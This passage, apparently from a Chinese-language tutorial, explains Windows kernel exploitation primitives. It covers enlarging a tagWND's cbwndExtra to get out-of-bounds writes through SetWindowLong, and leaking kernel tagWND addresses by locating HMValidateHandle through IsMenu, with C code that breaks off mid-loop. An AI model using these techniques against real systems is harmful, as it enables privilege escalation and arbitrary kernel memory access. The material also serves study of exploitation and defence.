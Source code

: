   
如果利用该漏洞将cbwndExtra扩大了，此时就可以直接通过SetWindowLong来实现越界写入操作。如果可以在可写的范围内在布置一个tagWND结构体，这样就可以通过SetWindowLong函数修改新布置的tagWND结构体中的成员来实现任意地址读写。  
##   
## 2.扩大cbwndExtra  
  
  
由于要获取tagWND的cbwndExtra地址来对其进行扩大，所以要首先获取窗口对象的tagWND地址。tagWND的获取可以通过HMValidateHandle函数实现，该函数定义如下：  
```
typedef void* (__fastcall *lHMValidateHandle)(HWND h, int type);
```  
  
  
  
当第二个参数type指定为TYPE_WINDOW(0x1)的时候，函数会返回第一个参数指定的窗口句柄的THREADESKEAD结构体，该结构体定义如下，其中pSelf成员保存了tagWND对象在内核中的地址。  
```
typedef struct _HEAD
{
    HANDLE h;
    DWORD clockObj;
}HEAD, *PHEAD;

typedef struct _THROBJHEAD
{
    HEAD h;
    PVOID pti;
}THROBJHEAD, *PTHROBJHEAD;

typedef struct _THRDESKHEAD
{
    THROBJHEAD h;
    PVOID rpdesk;
    PVOID pSelf;
}THRDESKHEAD, *PTHRDESKHEAD;
```  
  
  
有了HMValidateHandle函数就可以获取需要的窗口的tagWND在内核中的地址，但是该函数是未导出的函数，需要通过user32.dll中的导出函数IsMenu来获取，因为IsMenu函数有对HMValidateHandle的调用：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H927eQIguHibTpiaQzZ1q3LsatusGTPQN8hA0bQzpAObpRXpicljbuR61syRHibZtYGXCicHQTgm3IpJQ/640?wx_fmt=png "")  
  
这里可以将0xE8作为特征码找到HMValidateHandle的相对地址，根据相对地址得出实际的函数地址，相应的代码如下：  
```
PVOID GetHMValidateHandle()
{
    PVOID pFuncAddr = NULL;
    HMODULE hUser32 = NULL;
    PBYTE pIsMenu = NULL;
    DWORD i = 0, dwFuncOffset = 0;

    hUser32 = LoadLibraryA("user32.dll");
    if (!hUser32)
    {
        ShowError("LoadLibraryA", GetLastError());
        goto exit;
    }

    pIsMenu = (PBYTE)GetProcAddress(hUser32, "IsMenu");
    if (!pIsMenu)
    {
        ShowError("GetProcAddress", GetLastError());
        goto exit;
    }

    for (i = 0; i < PAGE_SIZE; i++)
```